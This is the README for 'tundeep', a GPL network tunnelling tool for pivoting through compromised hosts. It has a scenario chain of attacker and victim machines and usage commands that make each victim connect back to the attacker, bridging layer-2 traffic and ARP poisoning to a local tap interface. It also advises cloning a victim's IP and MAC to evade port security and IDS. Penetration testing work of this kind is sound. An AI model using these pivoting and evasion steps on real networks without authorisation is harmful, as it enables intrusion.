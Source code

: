 	TUNDEEP
	Adam Palmer

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <http://www.gnu.org/licenses/>.

Name: 		    tundeep v1.0
Author: 	    Adam Palmer (npn)
Author Email: 	adam@adampalmer.me
Author URL:	    https://www.adampalmer.me/
README:		    https://www.adampalmer.me/iodigitalsec/tundeep/

Source:		http://www.cis.syr.edu/~wedu/seed/Labs/VPN/files/simpletun.c
Source:		Various stackoverflow posts
Source:		Libpcap documentation
Source:		Beej's Network Guide
Source:		http://www.logix.cz/michal/devel/ (getaddrinfo)

Please direct questions, comments, criticism and bug reports to adam@adampalmer.me. 

Contents:
=========
1. Purpose
2. Compiling
3. Scenario
4. Usage
	4a. TCP Mode
	4b. UDP Mode
	4c. IPv6 Mode
	4d. Misc
5. Changelog
6. The future

1. Purpose:
===========

This is a network tunnelling tool. 
For pivoting/tunnelling deeper into a target network, we have a couple of options;
Option 1 - Metasploit's 'autoroute' module. Disadvantages: Works great, but only works from within metasploit. No use for running external tools.
Option 2 - Metasploit's portfwd module/iptables/simpleproxy. Disadvantages: Only forwards specified single layer 3 UDP/TCP ports.
Option 3 - Proxychains/ssh -D SOCKS tunnelling. Disadvantages: Proxychains is a hack in itself, and only supports layer 3 TCP.
Option 4 - Implement a VPN server and set up bridging on your victim. Disadvantages: disasterous idea

This tool presents a 'tap0' interface for your target network on your local machine. On the target end, it does not require drivers/kernel
modules to be installed beyond libpcap. This tool supports ARP and ARP scanning/poisoning on your target network no matter how many layers deep you tunnel. 

This tool should support any layer 2 ethernet protocol. Code has been borrowed from various sources including those above. As we have a tap interface now bound to the
remote network, we are able to run any tools that we wish, as if we were directly connected to the target network.


2. Compiling:
=============

-D_LINUX adds tun/tap support in the makefile, -D_COMPRESS adds zlib compression support

Tested on Debian Squeeze 32bit and 64bit, and Windows XP Pro. This tool requires libpcap/winpcap

On Windows, you'll need Cygwin and all the relevant tools such as libc, make, gcc.

On Windows:
[Untested] Guide to winpcap silent install: http://paperlined.org/apps/wireshark/winpcap_silent_install.html
[Tested] libwpcap support in cygwin: http://mathieu.carbou.free.fr/wiki/?title=Winpcap_/_Libpcap

To compile, just type 'make'

By default, the application makes a lot of debug noise. Set DEBUG in 'def.h' as you wish (0=No debug, 6=Max Debug).


3. Scenario:
============
[Attacker 192.168.200.40 (eth0)]-----[192.168.200.41(eth0) VICTIM 1 10.0.0.5(eth1)]------[10.0.0.10(eth0) VICTIM2 10.10.10.20(eth1)]--------[10.10.10.21(eth0) VICTIM3]

This tool will bring up a tap0 interface on the attacking machine, tunnelled via packet injection on the remote end to the target network.

We have two main strategies. Looking at the scenario above, our first step is to pivot onto the 10.0.0.5 interface of Victim 1. We have two options:

1. Match Victim1's eth1 IP and MAC exactly on our own tap0 interface specifying -x, -y and -u on the attacking machine. This is the least detectable as it does not bring up any new IP
	or MAC addresses on the target network and we can evade port security. It may however interfere with legitimate traffic on Victim 1. 
2. The second option is to assign our own IP and/or MAC to be tunnelled through. This is going to be more reliable, but less stealthy and may trigger IDS/switch/port security alerts.

The next consideration is that all traffic that Victim1 receives on eth1 is tunnelled back to us. This will create network congestion at minimum, and service unavailability or worse. 
It's not advisable to run this on a heavy traffic production environment. Also consider where you run this tool from. Running this where the connection between attacker and victim1's eth0
is slower than victim1's eth1 and it's peers is a bad idea.

The final option if this is really a problem, is using the bpf. I can think of two useful cases for the bpf -
1. Specify a new IP to bring up on the target network via -x/-y and on both sides use -b "host $ip".
2. Retain the Victim's IP, and use "tcp port $port" on both sides to specify a particular port you wish to tunnel through.


4. Usage:
=========
4a. TCP Mode:
=============
On our attacking machine -
1. 	tundeep -s -t tap0 -h 0.0.0.0 -p 5000 -x 10.0.0.5 -y 255.255.255.0 -u 00:0c:29:c6:44:02
	Here we will bring up a tap0 interface on our machine with the same MAC (-u) and IP/Mask (-x/-y) as the network we want to pivot to (Victim1's eth1).

	On our victim 1-
	tundeep -i eth1 -h 192.168.200.40 -p 5000 -c
	Connect back to our attacker on port 5000.

	We can now ping 10.0.0.10, i.e. victim2 directly from our machine. TCP/UDP/ICMP and ARP have all been tested. 

2. 	Now to tunnel deeper. On our attacking machine -
	tundeep -s -t tap1 -h 0.0.0.0 -p 5001 -x 10.10.10.20 -y 255.255.255.0 -u 00:0c:29:df:f0:ac
	Here we will bring up a tap1 interface on our attacking machine, with the same MAC/IP as Victim 2's eth1
	On our victim 2-
	tundeep -i eth1 -h 10.0.0.5 -p 5001 -c

	Now we can ping 10.10.10.21, i.e. victim 3. We can continue tunnelling as deep as we need.


4b. UDP Mode:
=============
There's no client and server side. Each side needs it's endpoint specified via -e and it's listen IP via -h. 
To use the scenarios above. On our side:

1.	tundeep -d -e 192.168.200.41 -t tap0 -h 0.0.0.0 -p 5000 -x 10.0.0.5 -y 255.255.255.0 -u 00:0c:29:c6:44:02
	and on the victim:
	tundeep -d -e 192.168.200.40 -i eth1 -h 0.0.0.0 -p 5000

2.	tundeep -d -e 10.0.0.10 -t tap1 -h 0.0.0.0 -p 5001 -x 10.10.10.20 -y 255.255.255.0 -u 00:0c:29:df:f0:ac
	and on the victim:
	tundeep -d -e 10.0.0.5 -i eth1 -h 192.168.200.40 -p 5001

4c. IPv6 Mode:
==============
There are two methods to utilize IPv6. The sniffing and injection portion works at layer 2 and is therefore IP version independant.
Specifying -T on the tap node specifies IPv6 address usage. In that case -x specifies the IPv6 IP and -y specifies the prefix length.
i.e. ./tundeep -T tap0 -h 0.0.0.0 -p 5000 -s -x fe80::80aa:2aff:fe0b:383f -y 64
Using this option, we can tunnel IPv6 over an existing IPv4 socket/network.

The next option is in tunneling IPv4 over an existing IPv6 network, -6 option puts the socket into IPv6 mode:
./tundeep -T tap0 -h "::0" -p 5000 -s -x 192.168.5.5 -y 255.255.255.0

Of course, -T and -6 can be used together for full IPv6.


4d. Misc:
=========

5. Changelog:
=============
tundeep_v0.1a_20130910:
	- Initial Release

tundeep_v0.2a_20130916:
	- IPv6 support (-6, -T)
	- Compression support (-C) - must be enabled on both sides
	- Better error checking and debugging
	- Misc bug fixes and code improvements
	- Makefile improvements to detect Cygwin/Linux without manual edits
	- README updates
	- Added default checksum feature (-K disables) - added overhead, improved reliability. Must be disabled on both sides

6. The Future:
===============
Future release plans -
- Code cleanup
- MAC/IP mangling support
